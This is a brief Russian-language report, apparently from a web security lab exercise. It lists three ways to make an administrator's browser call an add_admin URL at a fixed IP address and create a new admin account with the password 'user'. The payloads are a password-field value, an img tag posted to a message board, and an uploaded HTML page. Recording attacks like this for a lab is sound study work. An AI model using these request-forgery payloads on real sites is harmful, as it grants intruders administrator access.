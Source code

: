 ## Отчет

## Атака 1
При создании нового пользователя можно ввести в поле для пароля `http://92.63.179.34/add_admin?=username=user&password=user&submit=Add+User`, и пользователь успешно создастся

## Атака 2
В message board админу можно отправить `<img src="http://92.63.179.34/add_admin?=username=user&password=user&submit=Add+User">` и пользователь создастся

## Атака 3
В форму для отправки файлов можно вставить html страницу с таким кодом: `<img src="http://92.63.179.34/add_admin?username=user&password=user">`
